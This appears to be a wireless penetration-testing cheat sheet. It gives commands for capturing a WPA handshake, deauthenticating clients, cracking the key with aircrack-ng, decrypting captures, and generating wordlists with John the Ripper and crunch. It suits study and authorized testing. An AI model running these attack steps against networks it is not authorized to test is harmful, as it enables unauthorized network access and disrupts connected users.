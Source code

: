 ### Airdecap-ng  
This is used after we have got the wireless key to a network.  
It allows us to decrypt WEP,WPA, WPA2 capture files.  

| Command | Description |
|--|--|
|`sudo airdecap-ng -b BSSID-AP cap-file.cap` | Info on capture file |

## Cracking Authentication Hashes
WiFi Protected Access (WPA|WPA2|WPA3) use either Pre-Shared Keys (PSK) or Enterprise for authentication.  

1. Capture a WPA 4-way handshake  
- Monitor mode 
- Airodump target the AP and ensure it's using PSK for Auth.  Note a client MAC  
- Save information to a capture file.  Leave running.  
`airodump-ng wlan0mon -c 3 --bssid <AP-MAC> -w wpa`  
- Deauthenticate a target
`sudo aireplay-ng -0 1 -a <AP-MAc> -c <client-MAC> wlan0mon`  
- Check if airodump captured a `WPA handshake: <MAC>`  
- If no handshake captured = maybe too far or close to AP. Or the clients wireless driver dismisses directed deauthentication, and only deauths from broadcasts. If that's the case, de-auth without `-c`. This may knock everything offline though temporarily! It may also be that you needed to wait for a client to connect if `802.11w` is in use!

2. Crack the handshake  
`aircrack-ng -w /wordlist.txt -e AP-Name -b <AP-MAC> wpa-01.cap`

3. Confirm correct key  
`airdecap-ng -b <AP-MAC> -e AP-Name -p key wpa-01.cap`  
This should list 'decrypted packets'.   

### Using John the Ripper 
Creating custom rules for wordlist attacks (some APs use default password strings like 8 integers)

`nano /etc/john/john.conf`  

Add 2 numbers to the end of each password:
```
$[0-9]$[0-9]
$[0-9]$[0-9]$[0-9]
```
Test the rules with JTR:  
`john --wordlist=/usr/share/john/password.lst --rules --stdout | grep -i Password123`  

Use john with aircrack-ng:  
`john --wordlist=/usr/share/john/password.lst --rules --stdout | aircrack-ng -e wifu -w - ~/wpa-01.cap`  

### Crunch to create a wordlist  
Crunch can be used to create wordlists with only certain characters.

`crunch 8 9 abc123`   
